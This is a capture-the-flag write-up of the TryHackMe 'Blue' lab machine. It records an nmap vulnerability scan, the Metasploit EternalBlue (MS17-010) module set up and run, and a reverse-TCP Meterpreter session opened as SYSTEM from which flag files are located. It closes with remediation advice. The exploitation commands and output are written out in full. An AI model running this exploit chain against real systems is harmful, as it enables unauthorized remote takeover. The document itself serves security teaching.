




# Blue — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.65.184.199 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary
**Blue** is a TryHackMe machine that exposes an outdated Windows Server 2012 R2 host vulnerable to the EternalBlue SMB exploit. An Nmap scan identifies SMBv1 on port 445 as vulnerable to MS17-010 (CVE-2017-0143), which Metasploit's ms17_010_eternalblue module exploits directly, dropping a Meterpreter session as NT AUTHORITY\SYSTEM. From there, a filesystem search locates and reads the three target files left on the host.

**Attack chain:** Nmap Recon → MS17-010 (EternalBlue) Detection → Metasploit Exploitation → SYSTEM

## 1. Reconnaissance
A full TCP port scan with service/version detection and vulnerability scripts was run against the target:

```
nmap -p- -sS -sV --script=vuln -vvv -oN scan.txt 10.65.184.199

PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 126 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Service
|_ssl-ccs-injection: No reply from server (TIMEOUT)
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
49152/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49172/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49198/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

Port `445/tcp` (`microsoft-ds`) stood out immediately: the `smb-vuln-ms17-010` NSE script confirmed the host is vulnerable to the EternalBlue SMBv1 remote code execution flaw (`CVE-2017-0143`), with the version fingerprint matching a `Windows Server 2008 R2 - 2012` build.

## 2. Remote Code Execution via EternalBlue (MS17-010) — SYSTEM Access
With the vulnerability confirmed, Metasploit's EternalBlue module was configured against the target:

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.65.184.199
set lhost 192.168.131.193
```

Running the exploit confirmed the target was vulnerable and opened a Meterpreter session:

```
exploit
[*] Started reverse TCP handler on 192.168.131.193:4444 
[+] 10.65.184.199:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2012 R2 Datacenter 9600 x64 (64-bit)
[+] 10.65.184.199:445 - The target is vulnerable.
[*] Sending stage (255679 bytes) to 10.65.184.199
[*] Meterpreter session 1 opened (192.168.131.193:4444 -> 10.65.184.199:49203) at 2026-11-16 04:32:59 -0500
```

The exploit's own check had already fingerprinted the target as `Windows Server 2012 R2 Datacenter`, build `9600` x64.

`getuid` confirmed the session landed as SYSTEM:

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

`sysinfo` confirmed the host details:

```
meterpreter > sysinfo
Computer        : WIN-JO6REVNMMMP
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```

## 3. Locating and Reading the Target Files
A native command shell was opened from the Meterpreter session:

```
meterpreter > shell
Process 2372 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

A recursive filesystem search then located all three target files, along with `.lnk` shortcuts showing they had previously been opened by `Administrator` and `Jon`:

```
C:\>dir /s /b /a *flag*
C:\flag1.txt
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag1.txt.lnk
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag2.txt.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.txt.lnk
C:\Users\Jon\Documents\flag3.txt
C:\Windows\System32\config\flag2.txt
```

Each file was then read directly from its location:







## Root Cause & Remediation
| Issue | Fix |
|---|---|
| `SMBv1` enabled, exposing the host to `MS17-010`/`EternalBlue` (`CVE-2017-0143`) | Disable the deprecated `SMBv1` protocol and apply the `MS17-010` security update |
| Sensitive files stored in predictable, world-readable locations across system and user directories (`C:\`, `C:\Windows\System32\config\`, user `Documents`) | Restrict file permissions on sensitive paths and avoid storing sensitive data in predictable, broadly accessible locations |
